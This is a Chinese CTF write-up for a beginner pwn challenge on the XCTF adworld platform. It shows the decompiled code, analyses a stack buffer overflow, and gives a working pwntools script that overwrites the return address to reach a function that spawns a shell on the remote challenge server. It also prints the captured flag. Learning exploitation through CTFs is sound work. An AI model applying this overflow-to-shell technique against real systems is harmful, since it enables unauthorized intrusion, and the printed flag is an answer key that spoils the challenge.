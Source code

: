 https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5053

# 分析

1. IDA分析

   ```
   int __cdecl main(int argc, const char **argv, const char **envp)
   {
     write(1, "Hello, World\n", 0xDuLL);
     return vulnerable_function();
   }
   ```

   ```
   ssize_t vulnerable_function()
   {
     char buf; // [rsp+0h] [rbp-80h]
   
     return read(0, &buf, 0x200uLL);
   }
   ```

   ```
   int callsystem()
   {
     return system("/bin/sh");
   }
   ```

   栈溢出，buf的长度是0x80,buf后面的数据如下：

   ![image-20210806230036469](C:\my_ctf_learning\writeup\MISC\攻防世界\images\image-20210806230036469.png)

   首先，有一个s，8个字节长度，其次是一个r，重点就在这，r中存放着的就是返回地址。即当read函数结束后，程序下一步要到的地方。就是callsystem函数，即可执行shell。

   ![image-20210806230333570](C:\my_ctf_learning\writeup\MISC\攻防世界\images\image-20210806230333570.png)

callsystem开始地址是0x400596

2. 编写python脚本

   ```
   from pwn import *
   
   context.arch = "amd64"
   
   payload = b'a'*0x88 + p64(0x400596)
   print(payload)
   
   io = remote('111.200.241.244',64529 )
   io.sendline(payload)
   io.interactive()
   ```

   在Kali中运行，得到flag：cyberpeace{edb01582c6791821bd215d68e1724c18}

   ![image-20210806230450884](C:\my_ctf_learning\writeup\MISC\攻防世界\images\image-20210806230450884.png)